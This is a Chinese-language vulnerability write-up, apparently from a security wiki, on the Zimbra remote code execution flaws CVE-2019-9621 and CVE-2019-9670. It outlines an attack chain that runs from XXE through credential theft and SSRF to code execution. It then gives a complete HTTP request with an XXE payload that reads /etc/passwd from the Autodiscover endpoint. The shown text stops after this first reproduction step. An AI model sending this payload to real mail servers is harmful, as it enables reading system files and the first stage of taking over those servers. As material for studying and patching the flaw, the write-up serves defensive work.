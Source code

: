（CVE-2019-9621）（CVE-2019-9670）Zimbra 远程代码执行漏洞
=========================================================

一、漏洞简介
------------

当 Zimbra
存在像任意文件读取、XXE（xml外部实体注入）这种漏洞时，攻击者可以利用此漏洞读取
localconfig.xml配置文件，获取到 zimbra admin ldap password，并通过 7071
admin 端口进行 SOAP AuthRequest 认证，得到 admin
authtoken漏洞是利用XXE和ProxyServlet SSRF 漏洞拿到 admin authtoken
后，通过文件上传在服务端执行任意代码，威胁程度极高。当Zimbra服务端打来Memcached缓存服务是，可以利用SSRF攻击进行反序列化执行远程代码。不过由于Zimbra在单服务器安装中尽管Memcached虽然启动但是并没有进行使用，所以其攻击场景受到限制。

二、漏洞影响
------------

ZimbraCollaboration Server 8.8.11 之前的版本都受到影响。具体来说：

-   Zimbra \< 8.7.11
    版本中，攻击者可以在无需登录的情况下，实现远程代码执行。
-   Zimbra \< 8.8.11 版本中，在服务端使用 Memcached
    做缓存的情况下，经过登录认证后的攻击者可以实现远程代码执行。

三、复现过程
------------

### 第一步：检测是否存在xxe漏洞

    POST /Autodiscover/Autodiscover.xml HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 436  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  

    <!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
     <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
        <Request>
          <EMailAddress>aaaaa</EMailAddress>
          <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
        </Request>
      </Autodiscover>

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId25.png)
